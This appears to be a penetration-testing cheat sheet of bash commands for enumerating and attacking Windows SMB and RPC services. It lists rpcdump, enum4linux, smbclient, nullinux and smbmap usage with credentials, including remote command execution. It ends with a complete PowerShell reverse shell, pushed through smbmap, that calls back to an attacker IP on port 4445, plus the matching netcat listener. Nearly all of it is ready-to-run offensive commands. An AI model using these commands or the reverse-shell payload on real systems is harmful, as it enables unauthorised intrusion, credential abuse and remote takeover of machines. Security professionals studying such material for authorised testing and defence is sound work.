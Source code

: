 ```bash
/usr/share/doc/python3-impacket/examples/rpcdump.py -port 135 [[domain/]username[:password]@]<targetName or address>
/usr/share/doc/python3-impacket/examples/rpcdump.py -port 139 [[domain/]username[:password]@]<targetName or address>
/usr/share/doc/python3-impacket/examples/rpcdump.py -port 445 [[domain/]username[:password]@]<targetName or address>

nmblookup -A <IP> # Get NetBIOS from IP
enum4linux -a -R 500-600,950-1150 # Enumeration using enum4linux  (identifier le nom/domaine + users + shares) 

####################
List shares
####################
smbclient -L //IP
smbclient -L <ip>

####################
Connect
####################
smbclient \\\\x.x.x.x\\share 
smbclient -U “DOMAINNAME\Username” \\\\IP\\IPC$ password # Connect
smbclient -U “” -N \\\\IP\\IPC$ # Specify username and no pass

####################
Nullinux for users and shares
####################
nullinux -users -quick DC1.Domain.net
nullinux -all 192.168.0.0-5
nullinux -shares -U 'Domain\User' -P 'Password1' 10.0.0.1,10.0.0.5

python smbmap.py -u jhondoe -p password08 -d workgroup -H 192.168.x.x # Smbmap for domains (List share drives, drive permissions, share contents, upload/download functionality..) | Basic enumeration (password or NTLM hash)
python smbmap.py -u 'jhondoe' -p 'password08!' -d ACME -H 10.10.x.x -x 'net group "Domain Admins" /domain' # Remote command execution
python smbmap.py -H 10.10.x.x -u Administrator -p 'password08' -r 'C$\Users' # Non-recursive path listing
python smbmap.py --host-file ~/Desktop/smb-workstation-sml.txt -u jhondoe -p 'password08' -d widgetworld -F '[1-9][0-9][0-9]-[0-9][0-9]-[0-9][0-9][0-9][0-9]'# File content searching
python smbmap.py -H 192.168.x.x -u Administrator -p 'password08' -L # Drive listing

####################
# Nifty Shell
####################
python smbmap.py -u jhondoe -p 'password08' -d ABC -H 192.168.x.x -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""1.1.1.1""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"' 

nc -l 4445 # Listener for atacker Machine
```